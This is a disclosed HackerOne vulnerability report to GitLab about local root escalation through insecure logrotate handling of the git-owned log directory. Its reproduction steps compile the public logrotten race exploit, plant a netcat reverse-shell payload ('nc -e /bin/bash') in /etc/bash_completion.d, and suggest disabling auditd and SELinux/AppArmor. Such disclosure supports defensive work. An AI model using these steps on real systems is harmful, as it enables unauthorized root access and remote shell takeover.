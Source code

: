 # Privilege escalation due to insecure use of logrotate

## Report Details
- **Report ID**: 578119
- **URL**: https://hackerone.com/reports/578119
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-05-12T18:55:01.844Z
- **Disclosed**: 2019-10-01T20:06:21.223Z

## Reporter
- **Username**: petee
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

Gitlab sets the ownership of the logdirectory to the system-user "git", which might let local users obtain root access because of unsafe interaction with logrotate.

### Steps to reproduce

Please note that the exploit is just a proof-of-concept. In order to win the race reliably the following requirements should met:

* filesystem on bare disk. don't use lvm2 or overlayfs
* don't use containers
* stop auditd
* stop tuned
* don't use selinux or apparmor


The following steps were tested with gitlab-ce and gitlab-ee on Debian Stretch(amd64):

1. ```apt-get install sudo git build-essential```
2. ```sudo -u git /bin/bash```
3. ```git clone https://github.com/whotwagner/logrotten.git /tmp/logrotten```
4. ```cd /tmp/logrotten && gcc -o logrotten logrotten.c```
5. ```echo "hello gitlab" > /var/log/gitlab/gitlab-workhorse/something.log```
6. ```./logrotten -c /var/log/gitlab/gitlab-workhorse/something.log```
7. ```echo "if [ \`id -u\` -eq 0 ]; then (/bin/nc -e /bin/bash localhost 3333 &); fi" > /etc/bash_completion.d/something.log.1.gz```
8. ```nc -nvlp 3333```
9. A root-shell connects to port 3333 as soon as user root logins(for example via ssh)
